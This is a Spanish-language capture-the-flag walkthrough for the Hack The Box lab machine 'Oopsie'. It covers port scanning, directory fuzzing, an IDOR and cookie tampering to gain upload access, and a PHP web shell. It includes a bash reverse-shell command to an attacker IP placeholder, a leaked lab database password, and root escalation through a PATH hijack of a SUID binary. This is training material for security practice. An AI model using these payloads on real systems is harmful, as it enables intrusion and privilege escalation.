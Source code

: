 # Oopsie

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.139.174

PING 10.129.139.174 (10.129.139.174) 56(84) bytes of data.
64 bytes from 10.129.139.174: icmp_seq=1 ttl=63 time=223 ms

--- 10.129.139.174 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 223.273/223.273/223.273/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.129.139.174 -oG openPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 22,80 -sCV 10.129.139.174 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión                                                      |
| ------ | -------- | ------------------------------------------------------------ |
| 22     | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80     | http     | Apache httpd 2.4.29 ((Ubuntu))                               |

🗹 Enumerar posibles rutas:

```shell
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.139.174/FUZZ -t 80

themes                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 163ms]
uploads                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
css                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 164ms]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 5782ms]
js                      [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 178ms]
fonts                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 177ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 176ms]
```

```shell
ffuf -w /usr/share/seclists/Discovery/Web-Content/apache.txt -u http://10.129.95.191/FUZZ -t 80

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 355ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 167ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 165ms]
```

🗹 En el código fuente se puede ver la ruta `<script src="/cdn-cgi/login/script.js"></script>` dentro de la etiqueta `<script>`.

🗹 Ingresar a la URL `http://10.129.107.1/cdn-cgi/login/` e ingresar como invitado haciendo click en `Login as Guest`.

🗹 En la sección `Account` en la URL modificar el valor del parámetro `id` por el número `1`.  Se obtienen los valores `Name` y `Access ID`.

🗹 Modificar el valor de la cookie `role` por el valor obtenido `Name` y el valor de la cookie `user` por  el valor obtenido de `Access ID`. Recargar la página e ir a la sección `Uploads` para verificar si ya podemos subir archivos.

🗹 Crear un archivo `php`:

```shell
<?php
	system($_GET['cmd']);
?>
```

🗹 Subir el archivo.

🗹 Poner en escucha la máquina atacante con `netcat`, `nc -lnvp 1234`.

🗹 En la URL en el directorio `uploads` ingresar al archivo subido pasarle el comando `bash -c "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1"` al parámetro `cmd`, dejando la URL: `10.129.107.1/uploads/shell.php?cmd=bash -c "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1"`.

🗹 En el directorio `/var/www/html/cdn-cgi/login` se encuentra el archivo `db.php` en el que se encuentran los datos para acceder a la base de datos:

```shell
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php 

<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

🗹 Cambiar al usuario `robert` con la contraseña encontrada `M3g4C0rpUs3r!`.
## User flag

La flag del usuario está en el directorio `/home/robert/user.txt`.

🗹 Ver a que grupos pertenece el usuario `robert`:

```shell
robert@oopsie:/var/www/html/cdn-cgi/login$ id

uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

🗹 Al listar los permisos del binario `bugtracker` se ve que tiene permisos SUID.

🗹 Al ejecutar el binario `bugtracker` pide un número de reporte y al indicarle un número de reporte inexistente vemos que realizar un `cat` del número de reporte indicado dentro del directorio `/root/reports/`.

🗹 Crear un archivo `cat` dentro del directorio `/tmp`:

```shell
#!/bin/bash

/bin/bash -p
```

🗹 Modificar el **PATH** para que cuando el binario `bugtracker` haga el cat en vez de buscarlo en la ruta perteneciente al `cat` real lo busque en el directorio `\tmp` y como el binario `bugtracker` tiene permisos **SUID** cuando ejecute el `cat` creado en el directorio `/tmp` lo va a ejecutar como el usuario `root` y va a ejecutar el comando `bash -p`:

```shell
export PATH=/tmp:$PATH
```

🗹 Ejecutar el binario `bugtracker`.
## Root flag

La flag se encuentra en el directorio `/root`.
